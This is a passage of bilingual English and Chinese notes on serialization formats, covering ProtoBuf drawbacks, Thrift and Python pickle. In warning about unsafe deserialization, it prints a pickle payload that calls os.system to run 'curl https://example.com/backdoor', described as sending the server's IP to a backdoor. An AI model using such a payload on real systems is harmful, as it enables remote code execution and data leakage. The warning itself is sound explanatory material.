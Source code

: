     - 复杂.需要先定义proto文件并生成库

    - 也需要生成库的工具,而且生成库的工具在客户端和服务端都要有,这通常在schema信息变更的时候会出问题.

    - 难以debug


## Thrift

Thrift is similar to ProtoBuf in all likelihood. It shares exact the same processes and concepts like ProtoBuf.

Thrift 跟ProtoBuf很类似,处理数据和流程和方法也跟ProtoBuf很像.

## Language Built-in Serialization

Most languages have their own serialization solutions. There is rare example that data serialized by different languages can be used in other languages. This is mainly because data objects are represented very different in memory.

大多数编程语言都有自己的序列化方案.很少有一个编程语言序列化后的一个数据能被其他编程语言使用的,这主要是因为不同编程语言对于数据对象在内存中的理解室友很大不同的.

For example, in Python, you can use pickle and cPickle:

比如在Python中,你可以使用picke和cPickle:

```python
>>> class Foo:
...     attr = 'A class attribute'
...

>>> import pickle
>>> picklestring = pickle.dumps(Foo)

>>> picklestring
b'\x80\x03c__main__\nFoo\nq\x00.'

>>> pickle.loads(picklestring)
<class '__main__.Foo'>
```

Similar classes or interfaces can be found in other languages, for example, Marshal for Ruby, function serialize for PHP, class implemented java.io.Serializable for Java, etc.

类似的classes和接口在其他语言中也可以找到,比如Ruby的Marshal, PHP的函数序列化, java的序列化类java.io.Serializable等等.

The deserialization is usually dangerous when in language specific format. Deserialization usually means code execution, and therefore, malformed data from untrusted source can harm the system that runs the program. It's the worst choice and generally not recommend to use. Below is an example that a pickled data can send server ip to a backdoor service.

在语言的特定格式下,反序列化通常是危险的,反序列化通常意味着程序在运行,因此,来源不受信任的数据可能会对正在运行程序的系统造成危害,这是最糟糕的选择,通常是不建议这么做的.下面是一个pickle过的数据将服务端IP发送到一个后门服务端的例子:

```python
data  = """cos
system
(S'curl https://example.com/backdoor'
tR.
"""
pickle.loads(data)
```
